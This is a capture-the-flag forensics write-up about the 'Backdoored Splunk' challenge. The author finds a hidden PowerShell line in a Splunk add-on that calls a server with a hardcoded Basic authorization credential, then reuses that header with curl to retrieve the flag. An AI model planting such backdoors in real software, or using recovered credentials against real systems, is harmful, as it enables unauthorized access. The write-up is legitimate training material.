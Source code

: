 ```yaml
---
title: "Backdoored Splunk"
date: 2023-10-07T13:08:05-10:01
#draft: true
tags: ['CTF','Writeups', 'Forensics', 'Medium']
---
```

 
# [Home](https://jjolley91.github.io/blog/) >

###  [Huntress CTF](https://jjolley91.github.io/blog/huntress_ctf_2023) >  [Medium Challenges](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium/)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/traffic)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium/where_am_i) 

### You've probably seen Splunk being used for good, but have you seen it used for evil?

We were given a 'Splunk_TA_windows.zip' file to download.Once the contents were extracted we are given several directories and files to inspect.

Furthermore, by curling the provided url we get the following response: 
```bash
curl http://chal.ctf.games:30644/                                                                                                                  
{"error":"Missing or invalid Authorization header"}
```
It seems as though we are missing an Authorization header in the request. We can then see if there is one present in the extracted files using:
```bash
grep -ri Authorization 
```
We get a hit in the results that looks promising: 
![splunk2](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/backdoored_splunk.png?raw=true)


```bash
bin/powershell/nt6-health.ps1:$OS = @($html = (Invoke-WebRequest http://chal.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")} -UseBasicParsing).Content
```
We decided to try to curl the url and included the paramater like so:
```	bash					

curl http://chal.ctf.games:30644/ -H Authorization:"Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg=="
```
We were given a response this time with a base64 encoded message. We were able to decode the response and submit the flag!
![splunk](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/backdoored_splunk.png?raw=true)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/traffic)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium/where_am_i) 

